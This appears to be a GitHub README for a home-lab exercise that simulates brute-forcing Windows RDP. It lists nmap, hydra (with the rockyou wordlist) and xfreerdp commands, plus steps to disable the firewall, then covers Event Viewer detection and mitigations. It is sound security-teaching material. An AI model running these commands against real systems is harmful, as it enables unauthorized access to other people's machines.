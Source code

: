 # Simulated RDP Brute Force Attack on Windows (Ethical Lab)

## Disclaimer
> This project is for **educational and research purposes only**. All testing was done in an **isolated lab environment** on virtual machines I own. Never attempt this on networks or systems you do not have explicit permission to test.

---

## 1. Project Objective

To simulate how an attacker could gain unauthorized access to a Windows machine via Remote Desktop Protocol (RDP) by brute-forcing weak credentials — and document how such attempts can be detected and prevented.

---

## 2. Lab Setup

| Component     | Tool Used          | Specs                      |
|--------------|--------------------|----------------------------|
| Host OS      | Windows/Linux/macOS| Runs VirtualBox or VMware |
| Attacker VM  | Kali Linux         | With `hydra`, `nmap`       |
| Target VM    | Windows 10         | RDP enabled, weak password |
| Network Mode | Host-Only Adapter  | No external network access |

---

## 3. Steps to Set Up

### Windows VM (Target) Setup
1. Install Windows 10 in VirtualBox/VMware.
2. Create a **local account** named `Administrator` with a **weak password** (e.g., `123456`).
3. Enable Remote Desktop:
   - **System Properties > Remote > Enable Remote Desktop**
4. Get IP with:
   ```cmd
   ipconfig
   ```
5. Turn off Firewall (for testing only):
   ```cmd
   netsh advfirewall set allprofiles state off
   ```

### Kali Linux (Attacker) Setup
1. Boot Kali.
2. Install tools:
   ```bash
   sudo apt update
   sudo apt install hydra nmap xfreerdp
   ```
3. Ping Windows IP to verify connectivity:
   ```bash
   ping <windows_ip>
   ```

---

## 4. Scanning the Target

Use Nmap to confirm the RDP port is open:
```bash
nmap -p 3389 <windows_ip>
```

---

## 5. Brute-Force RDP Credentials with Hydra

Use a common wordlist (like rockyou):
```bash
hydra -t 4 -V -f -l Administrator -P /usr/share/wordlists/rockyou.txt rdp://<windows_ip>
```

If successful, Hydra will show:
```
[3389][rdp] host: 192.168.56.101   login: Administrator   password: 123456
```

---

## 6. Gaining Access via RDP

Use the credentials with:
```bash
xfreerdp /u:Administrator /p:123456 /v:<windows_ip>
```

This opens a remote desktop session with Administrator access.

---

## 7. Detection (On Windows VM)

Open Event Viewer and monitor:
- `Windows Logs > Security`
- `Applications and Services Logs > Microsoft > Windows > TerminalServices-RemoteConnectionManager`

Look for:
- Multiple failed login attempts.
- Successful login events.

---

## 8. Mitigations

- Enforce strong passwords.
- Set account lockout policy.
- Enable IP-based RDP restrictions.
- Use Multi-Factor Authentication.
- Actively monitor Event Logs.

---

## 9. Conclusion

This project demonstrates how weak credentials can be brute-forced on exposed RDP services. It emphasizes the need for secure configurations, logging, and proactive monitoring to prevent unauthorized access.

---

## .gitignore

```
*.log
*.pcap
*.cap
*.pyc
__pycache__/
*.vbox
*.vbox-prev
*.vdi
*.ova
*.ovf
.DS_Store
.idea/
.env
output/
```

This `.gitignore` file helps exclude VM images, logs, wordlists, and other large or sensitive files from your GitHub repository.

